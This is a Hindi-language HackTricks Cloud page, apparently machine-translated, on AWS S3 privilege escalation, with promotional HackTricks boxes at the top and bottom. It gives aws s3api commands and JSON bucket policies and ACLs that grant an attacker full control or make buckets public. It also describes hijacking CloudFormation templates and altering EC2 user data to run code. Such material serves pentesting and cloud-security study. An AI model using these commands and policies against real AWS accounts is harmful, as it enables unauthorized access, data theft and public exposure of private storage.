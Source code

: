 # AWS - S3 विशेषाधिकार उन्नयन

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे ट्विटर पर फ़ॉलो करें** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

इन अनुमतियों के साथ एक हमेशा रुचिकर बाल्टी के साथ एक हमलावर संसाधनों को हथिया सकता है और विशेषाधिकारों को उन्नयन कर सकता है।

उदाहरण के लिए, इन **अनुमतियों के साथ एक क्लाउडफ़ॉर्मेशन बाल्टी** के ऊपर हमलावर के पास "cf-templates-nohnwfax6a6i-us-east-1" नामक बाल्टी को हथिया सकता है। पहुंच निम्नलिखित नीति के साथ दी जा सकती है:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
और हिजैक संभव है क्योंकि टेम्पलेट अपलोड होने के बाद से बाल्ट में टेम्पलेट डिप्लॉय होने तक का **छोटा समय विंडो** होता है। एक हमलावर अपने खाते में एक **लैम्बडा फंक्शन** बना सकता है जो जब बाल्ट नोटिफिकेशन भेजा जाता है, तो उसकी **सामग्री को हिजैक** करता है।

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

पैकू मॉड्यूल [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) का उपयोग इस हमले को स्वचालित करने के लिए किया जा सकता है।\
अधिक जानकारी के लिए मूल शोध की जांच करें: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

ये अनुमतियाँ हैं **S3 में ऑब्जेक्ट प्राप्त करने और अपलोड करने** के लिए। AWS के अंदर (और बाहर) कई सेवाएं S3 स्टोरेज का उपयोग करती हैं **कॉन्फ़िग फ़ाइलें** संग्रहित करने के लिए।\
इनमें से कुछ उदाहरण हैं:

* यदि एक EC2 इंस्टेंस S3 बाल्ट में **उपयोगकर्ता डेटा संग्रहित कर रही है**, तो एक हमलावर इसे संशोधित करके **EC2 इंस्टेंस के अंदर आवारिस्त कोड को निष्पादित** कर सकता है।

### `s3:PutBucketPolicy`

एक हमलावर, जो **एक ही खाते से होना चाहिए**, अगर नहीं तो त्रुटि `The specified method is not allowed will trigger` होगी, इस अनुमति के साथ बाल्ट(बाल्टों) पर अधिक अनुमतियाँ खुद को प्रदान कर सकेगा, जिससे उसे बाल्ट पढ़ने, लिखने, संशोधित करने, हटाने और बाल्टों को उजागर करने की अनुमति मिलेगी।
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

एक हमलावर इन अनुमतियों का दुरुपयोग करके विशेष बकेट्स पर अधिक पहुंच प्राप्त कर सकता है।\
ध्यान दें कि हमलावर को समान खाते से होने की आवश्यकता नहीं होती है। इसके अलावा, लेखन पहुंच की आवश्यकता होती है।
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

एक हमलावर्ती इन अनुमतियों का दुरुपयोग करके बाल्टियों के अंदर विशेष वस्तुओं पर अधिक पहुंच प्राप्त कर सकता है।
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

इन अधिकारों के साथ एक हमलावर्ती को एक विशिष्ट ऑब्जेक्ट के संस्करण पर Acl डालने की संभावना होती है।
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को पीडीएफ में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**द पीएस फैमिली**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** को** **फॉलो** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>

